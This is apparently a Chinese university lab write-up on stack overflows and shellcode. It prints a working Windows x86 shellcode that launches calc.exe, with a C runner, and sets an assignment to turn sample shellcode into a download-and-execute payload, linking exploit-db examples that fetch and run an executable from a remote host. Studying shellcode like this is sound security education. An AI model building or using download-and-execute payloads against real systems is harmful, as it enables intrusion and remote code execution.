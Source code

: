 # 课堂+作业

## 课堂知识
+ 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址
+ 跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。攻击者通过这段代码来实现攻击之后的控制等等功能。
+ 早期，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这要黑客就可以远程通过命令的方式控制目标计算机了。
  + 就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
+ 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。

## 作业要求
* 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
   - [Windows/x64 - Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit-db.com/shellcodes/40821)
   - [Windows/x64 (XP) - Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit-db.com/shellcodes/36411) 

***************************
## 实验过程
###  【实验一】详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 【1】[Windows/x86 - Null-Free WinExec Calc.exe Shellcode](https://www.exploit-db.com/shellcodes/13828)
  * 实现：打开计算器
  ```c
  #include <windows.h>
  #include <stdio.h>
  char code[] = \
  "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
  "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
  "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
  "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
  "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
  "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
  "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
  "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
  "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
  "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
  "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
  "\x52\xff\xd0";
  
  int main(int argc, char** argv) //运行上面的code
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```
  * 运行结果 